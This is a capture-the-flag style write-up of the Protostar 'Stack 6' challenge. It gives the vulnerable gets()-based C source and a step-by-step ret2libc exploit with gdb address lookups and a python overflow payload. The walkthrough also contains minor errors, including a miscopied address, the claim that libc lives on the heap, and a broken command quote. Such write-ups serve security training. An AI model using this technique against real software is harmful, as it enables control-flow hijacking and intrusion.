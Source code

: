 ###Stack 6 Exploit

####Introduction

This is similar to other stack exploits, but with a slightly inconvient security feature. The source code implements a rough
check to verify if the return address of a function is pointing to the stack. If it is, it will not execute the code.
Below is the source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();



}
```

####Exploit

We will get around this functionality by executing what is known as a `ret2libc` command. Essentially, we will set the return
address of the function to be a a `libc` library function which is stored on the heap and is always executable. We can feed these 
functions arbitary arguements and get them to execute.  

As we know, the order of a stack frame goes: 
```
function address
return address
parameters
```

So for our program to exit gracefully without causing a segfault and potentially alerting monitors our exploit stack frame should look
like:
```
address of puts()
address of exit()
parameter for puts(), "Hi Ben!"
```

So first lets find the address of puts() and exit().  

Lets run our exploit program in `gdb`
`gdb ./stack6`
`run`
now enter any charcater to advacne the program.
Now we can load the addresses of libc functions
`p puts`
This outputs `$1 = {<text variable, no debug info>} 0xb7ef4780 <_IO_puts>`  
This shows us the address of `puts` is `0xb7ef470`  
Doing the same for `exit` shows us that its adddress is `0xb7ec60c0`

Now we need to find a buffer that we can overflow in order to write the return address of `getpath` to be the address of `puts`
To do this we can call our program again with `gdb ./stack6`
Now lets disassemble the `getpath` function 
Run `disas getpath` you should see output like:
![Output](../../image.png)
We can identify the location of the buffer being allocated for looking for the `lea` assembly command. This command is called when
memory is allocated. We can see its memory address is `-0x4c(%ebp)`.  
What that is saying is that the buffer is allocated 76 (0x4c) bytes before the EBP pointer. Since we know that the return address
is stored 4 bytes after the EBP pointer we know whatever we right 80 bytes into our buffer will be the new return address. Now lets
create a string to do this. 
I'm going to pipe some python into a file to run.   
`'python -c '"B"*80 +"\x80\x47\xef\xb7"+"\xc0\x60\xec\xb7"+"Hi ben"' > /tmp/payload`
So this creates a string that looks like `BBBBBB...(80 Bs)<Address of puts><Address of exit><Parameter passed to puts>`  

So now `./stack6 < /tmp/payload` will execute the folllowing after returning from `getpath`:
```
puts("Hi ben");
exit()
```
